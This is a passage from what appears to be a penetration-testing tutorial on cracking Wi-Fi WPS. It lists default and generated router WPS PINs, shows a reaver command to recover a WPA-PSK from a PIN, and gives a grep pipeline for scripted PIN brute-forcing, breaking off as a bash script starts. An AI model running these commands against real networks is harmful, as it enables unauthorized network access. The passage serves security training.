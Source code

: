 48563710   Static PIN — Realtek 3
92148659   32-bit PIN
05294176   Static PIN — UR-825AC
89532331   36-bit PIN
68175542   Static PIN — DSL-2740R
71412252   Static PIN — Airocon 2
80652847   D-Link PIN
76229909   Static PIN — Broadcom 3
46264848   Static PIN — Broadcom 2
82799427   Reverse nibble 48-bit
20233921   Reverse byte 48-bit
31957199   Static PIN — Broadcom 6
10864111   Static PIN — Broadcom 5
62327145   Static PIN — Broadcom 4
30432031   Static PIN — Airocon 1
90970948   Reverse bits 48-bit
22369628   NIC * 2
33554433   NIC * 3
34259283   Static PIN — HG532x
35611530   Static PIN — Edimax
20172527   Static PIN — Broadcom 1
67958146   Static PIN — Thomson
12345670   Static PIN — Cisco
74244973   OUI + NIC

</code></pre>
<p>WPSPin outputs a variety of possible PINs for valid BSSIDs. To retrieve the WPA-PSK from a known PIN, we can use the following command.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 60:38:E0:A2:3D:2A -c 1 -p 73834410
</code></pre>
<p>In the above command, <code>-l</code> sets the time to wait if the access point locks WPS PIN attempts, which is set to 100 seconds. The <code>-r</code> option specifies the recurring delay, meaning the command will sleep for 45 seconds every 3 attempts. The <code>--max-attempts=1</code> specifies that the tool will only attempt the PIN one time. This option ensures that the PIN is tested just once, rather than multiple attempts.</p>
<p>However, doing this with a list of pre-defined PINs is not very efficient, as we have to re-execute this command for every potential PIN. Luckily, a bit of bash scripting can enable us to conduct a hands off approach for every PIN we generated.</p>
<p>We can extract only the pins from the wpspin output using a combination of <code>grep</code> and <code>tr</code> commands:</p>
<pre><code class="language-shell-session">[!bash!]$ wpspin -A 60:38:E0:A2:3D:2A | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' '

73834410 94229882 73834410 06490959 11184812 63311501 11184812 36499373 63313604 99956042 95661469 89478486 11184812 11184812 95755212 20854836 20144326 33946153 13142452 74163052 51875350 43977680 56587340 95719115 48563710 92148659 05294176 89532331 68175542 71412252 80652847 76229909 46264848 82799427 20233921 31957199 10864111 62327145 30432031 90970948 22369628 33554433 34259283 35611530 20172527 67958146 12345670 74244973
</code></pre>
<p>This command filters and displays the 8-digit pins from the output file, separating them with spaces. We can now store this output in a variable of a bash script and use it for brute-forcing WPS, as shown below.</p>
<pre><code class="language-bash">#!/bin/bash
